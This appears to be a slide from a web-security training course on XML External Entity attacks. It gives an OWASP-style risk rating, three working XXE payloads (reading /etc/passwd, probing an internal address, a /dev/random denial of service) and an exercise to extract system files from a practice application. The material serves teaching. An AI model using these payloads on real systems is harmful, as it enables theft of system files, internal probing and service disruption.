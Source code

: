 ## XML External Entities (XXE)

| Exploitability                 | Prevalence                    | Detecability      | Impact              | Risk                                                                             |
|:-------------------------------|:------------------------------|:------------------|:--------------------|:---------------------------------------------------------------------------------|
| :large_orange_diamond: Average | :large_orange_diamond: Common | :red_circle: Easy | :red_circle: Severe | [A4](https://www.owasp.org/index.php/Top_10-2017_A4-XML_External_Entities_(XXE)) |
| ( **2**                        | + **2**                       | + **3** ) / 3     | * **3**             | = **7.0**                                                                        |


---

# XML with Attack Payloads

## Extracting Data

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
    <foo>&xxe;</foo>
```

---

## Network Probing

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "https://192.168.1.1/private" >]>
    <foo>&xxe;</foo>
```

## DoS Attack (against Linux-based Systems)

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///dev/random" >]>
    <foo>&xxe;</foo>
```

---

# Exercise 7.1

1. Identify the weak point of the application that accepts arbitrary XML data as input (:star::star:)
2. Retrieve the content of your local system‘s `C:\Windows\system.ini` (or `/etc/passwd` if you are using Linux) via an XEE attack (:star::star::star:)

---